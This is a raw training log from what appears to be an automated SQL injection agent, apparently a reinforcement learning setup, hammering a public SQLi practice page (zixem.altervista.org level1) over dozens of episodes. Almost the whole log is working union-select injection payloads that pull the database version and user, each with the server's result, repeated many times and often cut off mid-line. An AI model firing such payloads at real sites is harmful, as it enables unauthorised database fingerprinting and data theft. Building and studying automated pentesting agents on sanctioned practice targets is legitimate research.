Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server r

  0%|          | 2652/1000000 [14:46:04<3740:44:17, 13.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2653/1000000 [14:46:04<2682:35:55,  9.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 2654/1000000 [14:46:35<4447:50:24, 16.05s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2655/1000000 [14:46:36<3174:35:29, 11.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2656/1000000 [14:46:37<2283:56:16,  8.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax err

  0%|          | 2657/1000000 [14:49:05<13917:42:50, 50.24s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2658/1000000 [14:49:06<9812:48:42, 35.42s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2659/1000000 [14:49:07<6950:45:37, 25.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query

  0%|          | 2660/1000000 [14:49:50<8428:35:57, 30.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 2661/1000000 [14:50:05<7138:49:04, 25.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2662/1000000 [14:50:08<5294:13:23, 19.11s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2663/1000000 [14:50:10<3835:24:45, 13.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Serv

  0%|          | 2664/1000000 [14:50:28<4199:06:56, 15.16s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2665/1000000 [14:50:29<3002:20:15, 10.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 2666/1000000 [14:51:00<4667:10:53, 16.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2667/1000000 [14:51:00<3331:12:19, 12.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2668/1000000 [14:51:01<2400:55:45,  8.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2669/1000000 [14:51:02<1751:53:07,  6.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2670/1000000 [14:51:03<1317:12:42,  4.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union sele

  0%|          | 2671/1000000 [14:52:04<5940:36:36, 21.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2672/1000000 [14:52:04<4224:43:06, 15.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2673/1000000 [14:52:05<3020:44:24, 10.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 unio

  0%|          | 2674/1000000 [14:53:35<9566:13:13, 34.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2675/1000000 [14:53:36<6760:28:52, 24.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 2676/1000000 [14:54:02<6903:28:02, 24.92s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 2677/1000000 [14:54:43<8282:44:41, 29.90s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2678/1000000 [14:54:44<5866:57:12, 21.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2679/1000000 [14:54:45<4169:45:23, 15.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2680/1000000 [14:54:46<2988:43:37, 10.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'unio

  0%|          | 2681/1000000 [14:55:18<4741:19:09, 17.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2682/1000000 [14:55:18<3346:50:03, 12.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2683/1000000 [14:55:18<2373:33:45,  8.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2684/1000000 [14:55:19<1734:59:01,  6.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2685/1000000 [14:55:20<1288:22:16,  4.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2686/1000000 [14:55:21<967:17:40,  3.49s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -

  0%|          | 2687/1000000 [14:56:45<7716:26:35, 27.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2688/1000000 [14:56:46<5470:11:43, 19.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2689/1000000 [14:56:47<3894:08:02, 14.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2690/1000000 [14:56:49<2862:22:37, 10.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2691/1000000 [14:56:50<2068:53:07,  7.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2692/1000000 [14:56:50<1509:34:13,  5.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2693/1000000 [14:56:52<1190:02:20,  4.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2694/1000000 [14:56:53<965:06:42,  3.48s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2695/1000000 [14:56:54<738:06:23,  2.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing re

  0%|          | 2696/1000000 [14:57:41<4421:49:01, 15.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2697/1000000 [14:57:42<3160:36:09, 11.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error

  0%|          | 2698/1000000 [14:58:18<5243:24:54, 18.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2699/1000000 [14:58:19<3741:38:27, 13.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2700/1000000 [14:58:20<2682:42:24,  9.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2701/1000000 [14:58:21<1944:59:13,  7.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2702/1000000 [14:58:22<1432:49:51,  5.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax e

  0%|          | 2703/1000000 [14:58:44<2861:02:41, 10.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2704/1000000 [14:58:45<2065:56:44,  7.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2705/1000000 [14:58:46<1515:56:42,  5.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2706/1000000 [14:58:48<1219:26:43,  4.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2707/1000000 [14:58:48<918:39:51,  3.32s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2708/1000000 [14:58:49<709:03:53,  2.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.o

  0%|          | 2709/1000000 [15:00:24<8346:20:12, 30.13s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax

  0%|          | 2710/1000000 [15:00:29<6304:50:21, 22.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2711/1000000 [15:00:30<4473:43:44, 16.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with di

  0%|          | 2712/1000000 [15:02:22<12417:05:06, 44.82s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
